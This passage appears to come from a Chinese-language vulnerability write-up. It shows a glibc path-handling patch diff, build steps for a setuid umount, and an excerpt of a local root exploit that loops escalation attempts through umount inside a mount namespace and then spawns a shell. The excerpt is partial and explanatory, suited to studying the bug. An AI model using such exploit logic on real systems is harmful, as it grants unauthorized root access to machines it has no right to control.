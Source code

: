 ```diff
+     or can succeed without returning an absolute path.  Just use the
      generic implementation right away.  */
-  if (errno == ENAMETOOLONG)
+  if (retval >= 0 || errno == ENAMETOOLONG)
     {
 #ifndef NO_ALLOCATION
       if (buf == NULL && size == 0)
```


## Exploit
umount 包含在 util-linux 中，为方便调试，我们重新编译安装一下：
```
$ sudo apt-get install dpkg-dev automake
$ sudo apt-get source util-linux
$ cd util-linux-2.27.1
$ ./configure
$ make && sudo make install
$ file /bin/umount 
/bin/umount: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=2104fb4e2c126b9ac812e611b291e034b3c361f2, not stripped
```

exp 主要分成两个部分：
```c
int main(int argc, char **argv) {
  [...]
  pid_t nsPid=prepareNamespacedProcess();
  while(excalateCurrentAttempt<escalateMaxAttempts) {
    [...]
    attemptEscalation();

    [...]
    if(statBuf.st_uid==0) {
      fprintf(stderr, "Executable now root-owned\n");
      goto escalateOk;
    }
  }

preReturnCleanup:
  [...]
  if(!exitStatus) {
    fprintf(stderr, "Cleanup completed, re-invoking binary\n");
    invokeShell("/proc/self/exe");
    exitStatus=1;
  }

escalateOk:
  exitStatus=0;
  goto preReturnCleanup;
}
```
- `prepareNamespacedProcess()`：准备一个运行在自己 mount namespace 的进程，并设置好适当的挂载结构。该进程允许程序在结束时可以清除它，从而删除 namespace。
- `attemptEscalation()`：调用 umount 来获得 root 权限。
